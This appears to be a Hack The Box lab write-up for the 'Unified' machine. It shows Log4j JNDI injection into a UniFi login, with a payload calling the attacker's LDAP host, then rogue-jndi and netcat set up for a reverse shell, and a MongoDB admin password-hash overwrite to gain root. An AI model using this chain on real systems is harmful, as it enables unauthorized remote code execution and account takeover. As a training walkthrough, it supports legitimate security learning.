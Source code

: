
# Unified #

## Enumeration ##

<p>We start off by running NMAP scan with all ports running and saving the output for later, the first scan have identified open ports 22, 6789, 8080, 8443</p>


![image](https://user-images.githubusercontent.com/85706972/152425346-cb140b47-83f8-4e3e-9487-7bcba1ba2dde.png)

<p>From enumeration we have found that DNS name for the page is UniFi, we can change the name in our /etc/hosts</p>

![image](https://user-images.githubusercontent.com/85706972/152425501-adc7461d-da3f-47d1-8902-2a0df1108bfd.png)

<p>Our task now is to go through the port 8443 which is running encrypted version of HTTPs with SSL, let’s explore the site and try to answer the questions asked in the room.
 UniFi Network is running on port 8443, We need to find the version of UniFi software</p>
 <p>Browsing the page on https://UniFi.htb:8443/ We see the version of the page

![image](https://user-images.githubusercontent.com/85706972/152425691-1cca7cba-b305-4441-98af-64104121b868.png)


<br></br>Next task is to search for publicly known exploits online and that we can either do on terminal with searchsploits tool or going to Exploit-DB</p>
<p>From the foundings it looks like unifi network 6.4.54 is vulnerable to Log4j in  <a href="https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi">CVE-2021-44228-PoC</a>
  
## Explotation ##
  
<p>We can now try to play around the login page to find the vulnerable place which we can exploit using log4j vulnerability and that we will do with tool BurpSuite</p>

![image](https://user-images.githubusercontent.com/85706972/152426300-7b2cb829-1ecd-4551-a20e-ac6be9f1e758.png)

<p>PoC shows that vulnerability lays in the injection in "remember" </p>

![image](https://user-images.githubusercontent.com/85706972/152426514-fd0f4f67-2c85-458d-8a0c-3c243df3ff2b.png)

 Now that we know where we can do injection,crafting following payload and open tcpdump to catch our payload
 <pre>${jndi:ldap://10.10.14.116}</pre>
 
 ![image](https://user-images.githubusercontent.com/85706972/152427265-3588febd-133d-4ae2-a9be-6a4c99aaec58.png)
 
 <p>tcpdump</p>
 
 ![image](https://user-images.githubusercontent.com/85706972/152427394-1e6e652b-627b-4187-90a7-00cc16c31839.png)

<p>We used port 389, becuase query goes through the LDAP port which is default 389</p>
 

<p>The target is vulnerable to log4j, awesome, as a attacker we must now try to get RCE, but to do that first we need to download following repository to get it done  - https://github.com/veracode-research/rogue-jndi
This will help us setup our LDAP server to catch the payload and then forward it to NETCAT listener to pop the shell</p>
For exploit to work, we must do these tasks below:
<ol>  
    <li>sudo apt update</li>  
    <li>sudo apt install openjdk-11-jdk -y</li>  
    <li>java -version</li>   
    <li>sudo apt-get install maven</li>
    <li>git clone https://github.com/veracode-research/rogue-jndi</li>
    <li>cd rogue-jndi</li>
    <li>mvn package</li>
</ol>

![image](https://user-images.githubusercontent.com/85706972/152491468-6cdecf04-5c1b-4e4b-8211-6986597393b1.png)

<p>When mvn built have finnished we can check if the "RogueJndi-1.1.jar" is created as this file is what we need to pass our payload and the file is responsible for getting us a shell 
</p>
<h3>Payload</h3>
<p>Payload we will craft it using base64 encoding to prevent any encoding issues</p>

![image](https://user-images.githubusercontent.com/85706972/152496689-de8fad71-651b-4fff-a5bf-7c1d4bba8393.png)

Replace IP address and /Port number with your tun0 and choice of port
<p?After the payload has been created, start the Rogue-JNDI application while passing in the payload as part of
the --command option and your tun0 IP address to the --hostname option </p>

![image](https://user-images.githubusercontent.com/85706972/152496995-35d831e4-fc6f-4e45-ab6c-b572f99e8a54.png)

<p>LDAP is now listening on port 1389, lets open NETCAT listener on port we used for base64 encoding 
When that is done, we go back to the BurpSuite and change the payload with our IP and LDAP listening site</p>

![image](https://user-images.githubusercontent.com/85706972/152497277-a1339675-368f-465c-a3b3-9c35c1fb3b25.png)

Awesome we have now gained RCE on the target machine, for better shell functionallity we can upgrade our shell
<pre>
script /dev/null -c bash
</pre>

<h3>Privilege Esacalation</h3>

<p>Now we need to perform privilege escalation to get full access over the machine and one of the things we can start off is to check running processes, also the 
HTB room question gives us hint that machine is running MongoDB, so we can start to check running processes and specifically for the MongoDB</p>

![image](https://user-images.githubusercontent.com/85706972/152497999-e61a5cb6-52b3-407d-94f1-9eddcffe951e.png)

<p>We found the running process and port that mongo uses, for further enumeration we can get a shell to find out database names</p>
<pre>
1. mongo "mongodb://localhost:27117”
2. show dbs
</pre>

![image](https://user-images.githubusercontent.com/85706972/152498557-f731219f-a3cf-466e-a0cc-bab1af735d71.png)


<p>With following command we found the db name "ACE" which seems to be the default
What next? We know the name of DB, we should try to get the user information, and this can be achieved with queries below</p>

<pre>
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
</pre>

![image](https://user-images.githubusercontent.com/85706972/152498595-c6f1f7b2-b162-400f-897b-22cb593124fc.png)

<p>Command gives us huge list of information , but at very top we got "administrator" name,email and x_shadow looks like password , but it hashed password.
At first I tried to copy/paste password and crack it with john the ripper, but it wasn't succesfull in any way, also then checked the questions as those are giving some hints
so in the end we can try to create the same hash password which turns to be "sha-512" and then replace it with existing password hash</p>

1. We create a password : 
![image](https://user-images.githubusercontent.com/85706972/152499249-ca0ee69a-90eb-4a35-b5e1-3a92c5df35ef.png)

2. Use the mongoDB command to insert new password we created

![image](https://user-images.githubusercontent.com/85706972/152499398-2e9180f4-72bb-49d7-ba99-5d4ed12d1c49.png)

3. Check if password is updated

![image](https://user-images.githubusercontent.com/85706972/152499472-1f86a890-ba15-46b7-82a6-af58a87d4089.png)

<p>Password updated with no issues, now hop on to the https://UniFi.htb:8443 and try to login with "administrator:newpasswd123" credentials </p>

![image](https://user-images.githubusercontent.com/85706972/152499627-b6c92e78-f19e-41ed-b47b-8c3ee33c3647.png)


Login was successfull and now exploring the site under Settings > Site found SSH login credentials which lead us into the box as root user

![image](https://user-images.githubusercontent.com/85706972/152499789-7f92b50a-0d03-4f07-951b-7be582498700.png)

Awesome box pwned




